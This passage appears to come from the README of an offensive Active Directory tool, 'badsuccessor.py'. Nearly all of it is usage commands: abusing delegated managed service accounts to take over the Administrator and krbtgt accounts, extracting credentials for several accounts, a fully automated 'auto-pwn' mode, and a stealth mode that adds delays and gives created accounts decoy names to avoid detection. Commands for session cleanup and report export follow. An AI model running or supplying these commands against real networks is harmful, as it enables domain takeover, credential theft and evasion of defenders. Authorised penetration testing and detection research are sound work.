 #### 3. Perform Attack
```bash
# Basic attack against Administrator
python3 badsuccessor.py -d corp.local -u john -p Password123 --attack --target Administrator

# Stealth mode with innocuous naming
python3 badsuccessor.py -d corp.local -u john -p Password123 --attack --target Administrator --stealth --random-delay 30

# Attack with custom dMSA attributes
python3 badsuccessor.py -d corp.local -u john -p Password123 --attack --target krbtgt \
  --dmsa-name legit_service --dmsa-description "Legitimate Service Account" \
  --dmsa-display-name "Production Service"

# Attack with custom naming pattern
python3 badsuccessor.py -d corp.local -u john -p Password123 --attack --target Administrator \
  --dmsa-pattern "svc{random}prod"
```

#### 4. Extract Credentials
```bash
# Extract credentials for multiple users
python3 badsuccessor.py -d corp.local -u john -p Password123 --extract-creds --targets Administrator,krbtgt,svc_sql

# Auto-pwn mode (fully automated)
python3 badsuccessor.py -d corp.local -u john -p Password123 --auto-pwn
```

#### 5. Session Management (NEW)
```bash
# List all sessions
python3 badsuccessor.py -d corp.local -u john -p Password123 --list-sessions

# Resume a previous session
python3 badsuccessor.py -d corp.local -u john -p Password123 --session-id corp.local_john_1234567890_abcd1234

# Clean up all dMSAs from a session
python3 badsuccessor.py -d corp.local -u john -p Password123 --cleanup-session SESSION_ID

# Clean up all dMSAs from current session
python3 badsuccessor.py -d corp.local -u john -p Password123 --cleanup-all
```

#### 6. Export Results (NEW)
```bash
# Export enumeration results to JSON
python3 badsuccessor.py -d corp.local -u john -p Password123 --enumerate --export-json results.json

# Export to CSV
python3 badsuccessor.py -d corp.local -u john -p Password123 --enumerate --export-csv writable_ous.csv

# Generate HTML report
python3 badsuccessor.py -d corp.local -u john -p Password123 --enumerate --export-html report.html

# Combined operation with exports
python3 badsuccessor.py -d corp.local -u john -p Password123 --attack --target Administrator \
  --export-json attack_results.json --export-html attack_report.html
```
